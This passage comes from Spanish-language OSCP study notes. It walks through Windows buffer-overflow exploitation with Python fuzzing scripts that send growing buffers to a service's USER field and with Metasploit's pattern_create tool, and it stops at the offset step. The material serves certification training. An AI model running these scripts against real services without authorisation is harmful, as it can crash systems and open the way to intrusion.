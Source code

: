 # Apuntes de Preparación para el OSCP

![OSCP Image](http://funkyimg.com/i/2MPB4.png)
#### Penetration Testing with Kali Linux (PWK) course and Offensive Security Certified Professional (OSCP) Cheat Sheet

## Índice y Estructura Principal
- [Buffer Overflow Windows (25 puntos)](#Buffer-Overflow-Windows)

Buffer Overflow Windows
===============================================================================================================================
A continuación, se listan los pasos a seguir para la correcta explotación de Buffer Overflow en Linux (32 bits). Para la examinación, no se requieren de conocimientos avanzados de exploiting en BoF (bypassing ASLR, etc.), basta con practicar con servicios básicos y llevar esa misma metodología al examen.

Servicios/Máquinas con los que practicar:

-   SLMail 5.5 
-   Minishare 1.4.1
-   Máquina Brainpan de VulnHub
-   Los 2 binarios personalizados compartidos en la máquina Windows personal del laboratorio

Generalmente, la metodología a seguir es la siguiente:

-   Fuzzing

Para esta fase, es necesario en primer lugar identificar el campo en el que se produce el buffer overflow. Para un caso práctico, suponiendo por ejemplo que un servicio sobre un Host 192.168.1.45 corre bajo el puerto 4000 y que tras la conexión vía TELNET desde nuestra máquina, se nos solicita un campo USER a introducir, podemos elaborar el siguiente script en python con el objetivo de determinar si se produce un desbordamiento de búffer:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = ["A"]
ipAddress = sys.argv[1]

port = 4000
contador = 100

while len(buffer) < 30:
  buffer.append("A"*contador)
  contador += 200
  
for strings in buffer:
  try:
    print "Enviando %s bytes..." % len(strings)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    s.send("USER " + strings + '\r\n')
    s.recv(1024)
    s.close()
  except:
    print "\nError de conexión...\n"
    sys.exit(0)

```
De esta forma, a través de una lista, vamos almacenando en la variable **buffer** el caracter "A" un total 30 veces con un incremento para cada una de las iteraciones en 200. 

Esto es:

**[1 caracter "A", 100 caracteres "A", 300 caracteres "A", 500 caracteres "A", 700 caracteres "A", ...]**

Mientras tanto, desde _Immunity Debugger_, estando previamente sincronizados con el proceso, deberemos de utilizarlo como debugger para ver en qué momento se produce una violación de segmento.

Cuando esto ocurra, deberíamos ver como el registro **EIP** toma el valor (**41414141**), correspondiente al caracter "A" en hexadecimal.

Lo bueno de haber creado la lista, es que podemos identificar rápidamente entre qué valores se produce el Búffer Overflow, en otras palabras, si vemos que tras la ejecución de nuestro script en Python el último reporte que se hizo fue **"Enviando 700 bytes..."**, lo conveniente es modificar nuestro script al siguiente contenido:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = "A"*900
ipAddress = sys.argv[1]

port = 4000

try:
  print "Enviando búffer..."
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ipAddress, port))
  s.recv(1024)
  s.send("USER " + buffer + '\r\n')
  s.recv(1024)
  s.close()
except:
  print "\nError de conexión...\n"
  sys.exit(0)

```
Siempre para asegurar es mejor mandarle los 200 caracteres siguientes de nuestro reporte. Tras la ejecución de esta variante, **Immunity Debugger** directamente nos debería reportar la violación de segmento con el valor **41414141** en el registro **EIP**, lo cual hace que ya tengamos una aproximación de tamaño del buffer permitido.

-   Calculando el Offset [Tamaño del Búffer]

Dado que el valor 414141 para el EIP no es algo descriptivo que nos permita hacernos la idea de qué tamaño tiene el buffer permitido, lo que hacemos es aprovecharnos de las utilidades **pattern_create** y **pattern_offset** de Metasploit.

La funcionalidad **pattern_create** nos permitirá generar un puñado de caracteres aleatorios en base a una longitud fijada como criterio. 

Ejemplo:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```


